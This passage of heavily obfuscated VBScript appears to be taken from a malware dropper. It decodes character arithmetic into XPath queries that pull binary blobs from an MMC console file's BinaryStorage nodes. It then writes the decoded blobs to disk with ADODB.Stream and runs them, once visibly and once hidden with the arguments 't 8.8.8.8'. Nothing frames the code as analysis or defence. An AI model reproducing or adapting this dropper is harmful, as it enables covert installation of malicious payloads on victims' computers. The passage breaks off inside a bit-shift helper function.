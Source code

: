 ```basic
  Set aZPHxtz4=RTcxFmy.selectNodes( Chr(29281/623)&Chr(Int("&H4d"))&Chr(77)&Chr(1587-1520)&Chr(Int("95"))&Chr(67)&Chr(Int("&H6f"))&"n"&Chr(Int("115"))&Chr(Int("&H6f"))&Chr(108)&Chr(Int("&H65"))&Chr(70)&Chr(&H69)&Chr(108)&Chr(101)&Chr(47)&"B"&"i"&Chr(6710-6600)&Chr(&H61)&Chr(Int("114"))&Chr(Int("121"))&Chr(&H53)&Chr(116)&"o"&Chr(221844/1946)&Chr(97)&Chr(Int("103"))&Chr(Int("&H65"))&Chr(4621-4574)&Chr(&H42)&Chr(105)&Chr(Int("110"))&Chr(&H61)&Chr(8019-7905)&"y"&Chr(Int("&H5b"))&Chr(64)&Chr(Int("78"))&Chr(&H61)&Chr(Int("&H6d"))&Chr(Int("&H65"))&Chr(&H3d)&Chr(Int("&H27"))&Chr(&H43)&Chr(79)&Chr(Int("&H4e"))&Chr(&H53)&Chr(8290-8211)&Chr(Int("76"))&Chr(6677-6608)&Chr(&H5f)&Chr(Int("84"))&Chr(1018-936)&Chr(&H45)&Chr(&H45)&Chr(Int("39"))&Chr(&H5d) ) 
  rqsgO2mBfu=aZPHxtz4(0).text
  UoLAunW=Xk7fbp8v(rqsgO2mBfu)
  Dim jXnaWeLQ12
  Set jXnaWeLQ12=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
  jXnaWeLQ12.Type=1
  jXnaWeLQ12.Open
  jXnaWeLQ12.Write UoLAunW
  jXnaWeLQ12.SaveToFile Mw7U,2
  AgUvcCuHzzbl.run """" & Mw7U & """",1,false
  Set aZPHxtz4=RTcxFmy.selectNodes( Chr(47)&Chr(&H4d)&Chr(77)&"C"&Chr(95)&Chr(Int("&H43"))&"o"&Chr(Int("110"))&Chr(&H73)&Chr(Int("111"))&"l"&Chr(&H65)&Chr(Int("&H46"))&"i"&Chr(5094-4986)&Chr(101)&Chr(Int("47"))&Chr(331-265)&Chr(105)&Chr(Int("&H6e"))&Chr(Int("&H61"))&Chr(&H72)&Chr(Int("121"))&Chr(&H53)&Chr(116)&"o"&"r"&Chr(-1088+1185)&Chr(2152-2049)&Chr(266943/2643)&Chr(Int("47"))&Chr(-385+451)&Chr(105)&Chr(Int("&H6e"))&Chr(Int("&H61"))&Chr(114)&Chr(Int("&H79"))&Chr(91)&"@"&Chr(Int("78"))&Chr(Int("97"))&Chr(&H6d)&Chr(&H65)&Chr(Int("&H3d"))&Chr(3877-3838)&Chr(Int("67"))&Chr(&H4f)&Chr(78)&Chr(83)&Chr(79)&Chr(Int("&H4c"))&Chr(Int("69"))&Chr(419-324)&"M"&Chr(Int("&H45"))&Chr(Int("78"))&"U"&Chr(Int("39"))&Chr(Int("&H5d")) ) 
  Ze1C=aZPHxtz4(0).text
  Set aZPHxtz4 = RTcxFmy.selectNodes( Chr(&H2f)&Chr(-1536+1613)&Chr(4928/64)&Chr(67)&Chr(345-250)&Chr(Int("67"))&Chr(111)&"n"&Chr(&H73)&Chr(Int("&H6f"))&Chr(&H6c)&Chr(Int("101"))&Chr(145110/2073)&Chr(&H69)&Chr(108)&Chr(Int("101"))&Chr(Int("&H2f"))&Chr(66)&Chr(&H69)&Chr(1514-1404)&Chr(Int("97"))&Chr(Int("&H72"))&Chr(Int("121"))&Chr(83)&Chr(212744/1834)&Chr(&H6f)&Chr(Int("114"))&Chr(Int("97"))&Chr(&H67)&Chr(-749+850)&Chr(-3015+3062)&Chr(Int("&H42"))&"i"&Chr(&H6e)&Chr(Int("&H61"))&Chr(114)&Chr(Int("&H79"))&Chr(Int("91"))&Chr(&H40)&Chr(Int("&H4e"))&Chr(&H61)&Chr(109)&Chr(101)&Chr(&H3d)&Chr(-548+587)&Chr(67)&Chr(Int("&H4f"))&Chr(3379-3301)&"S"&"O"&Chr(-1145+1221)&Chr(Int("&H45"))&"_"&Chr(-626+706)&Chr(Int("65"))&Chr(78)&"E"&Chr(39)&Chr(Int("93")) ) 
  JozMh9jg=aZPHxtz4(0).text
  AnZUOdqFuMEw=Xk7fbp8v(Ze1C)
  s4fr2y4Q7lvQ=Xk7fbp8v(JozMh9jg)
  Dim cHh5wARUext
  Set cHh5wARUext=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
  cHh5wARUext.Type=1
  cHh5wARUext.Open 
  cHh5wARUext.Write AnZUOdqFuMEw
  cHh5wARUext.SaveToFile gwqhhV,2
  Dim BKzG1ldRw7
  Set BKzG1ldRw7=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
  BKzG1ldRw7.Type=1
  BKzG1ldRw7.Open 
  BKzG1ldRw7.Write s4fr2y4Q7lvQ
  BKzG1ldRw7.SaveToFile JJNe,2
  AgUvcCuHzzbl.run """" & gwqhhV & """" & Chr(Int("32"))&Chr(&H74)&Chr(&H20)&Chr(&H38)&"."&Chr(56)&Chr(Int("46"))&Chr(Int("&H38"))&"."&Chr(-129+185),0,false
End Function
Public Function i9Vu0(ByVal Value,ByVal Shift)
  i9Vu0=Value
  If Shift>0 Then
    If Value>0 Then
      i9Vu0=Int(i9Vu0/(2^Shift))
    Else
      If Shift>31 Then
        i9Vu0=0
```